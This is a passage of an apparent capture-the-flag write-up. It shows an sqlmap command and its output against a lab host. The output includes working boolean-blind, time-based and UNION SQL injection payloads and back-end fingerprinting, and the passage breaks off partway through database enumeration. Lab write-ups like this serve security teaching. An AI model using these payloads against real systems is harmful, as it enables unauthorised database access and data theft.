 Next gonna check the database.

```bash
└─$ sqlmap -r req --batch --dbs                                                                               
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[']_____ ___ ___  {1.9.6#stable}                                                                                                                                                                                                    
|_ -| . ["]     | .'| . |                                                                                                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:47:57 /2025-08-13/

[11:47:57] [INFO] parsing HTTP request from 'req'
[11:47:57] [INFO] resuming back-end DBMS 'mysql' 
[11:47:57] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=24'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5901=5901 AND 'HaTg'='HaTg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND (SELECT 1771 FROM (SELECT(SLEEP(5)))Nfcz) AND 'egFU'='egFU

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=http://vote.cobblestone.htb/index.php' UNION ALL SELECT NULL,CONCAT(0x7178707671,0x6145494f4c7a53735276666843686a5749724b69696a574768636f4e6c4c4e424e6756506a49794c,0x71707a7071),NULL,NULL,NULL-- -
---
[11:47:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:47:58] [INFO] fetching database names
[11:48:01] [WARNING] the SQL query provided does not return any output
[11:48:01] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[11:48:01] [INFO] fetching number of databases
[11:48:01] [INFO] resumed: 2
[11:48:01] [INFO] resumed: information_schema
```